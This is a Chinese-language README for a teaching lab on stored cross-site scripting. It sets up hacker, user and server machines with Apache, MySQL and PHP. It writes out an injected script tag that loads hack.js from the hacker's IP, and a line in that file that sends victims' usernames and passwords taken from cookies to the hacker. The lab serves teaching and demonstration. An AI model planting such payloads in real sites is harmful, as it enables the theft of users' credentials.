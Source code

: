 # 跨站式脚本攻击（XSS attack) 实验

# 支持的操作系统
Windows, Linux
# 需要软件
Apache HTTP Server, MySQL, PHP 7.0
# 安装细节
本实验需要三部电脑以模仿Hacker, 正常用户和服务器。
在这实验中， Hacker需要安装 Apache和PHP, 而服务器三个软件都需要安装。
对于Windows, 把代码放到 Apache 的 DocumentRoot: C:\Apache24\htdocs
对于Linux，把代码放到 Apache 的 DocumentRoot: /var/www/html/
Hacker 和服务器的代码分别在 hack 和 webserver文件夹里。
然后， 在webserver/databaseAuth.txt 需要隔行分别提供MySQL的用户名和密码
然后，在/hack/hack.js里需要把代码进行修改 (第16行）：script.src = 'http://#在这里写hacker的IP地址#/index.php?username=' + username + '&password='+password;
# 实验过程
我门设定了用户 hacker 和他的密码位：78539816, 正常用户 jim123 和他的密码位：12345678 (这些可在createDatabase.sql 修改）。
每当用户登入到网站，服务器将会在cookies里记录用户名和密码。
首先， hacker在登入了网页后，在论坛的评论输入区输入恶意代码： <script type = "text/javascript" src = "http://#在这里写hacker的IP地址#/hack.js"></script>
，并注入到数据库里。这样，恶意代码只要数据库管里员一日没有发现，恶意代码将会永远存储在数据库。每当正常用户
在论坛里登入后再发评论，会显示到其他用户的评论，而在此时恶意代码将会执行，并把存放在正常用户客户端的Cookies发到Hacker，从而Hacker得到用户名和密码。
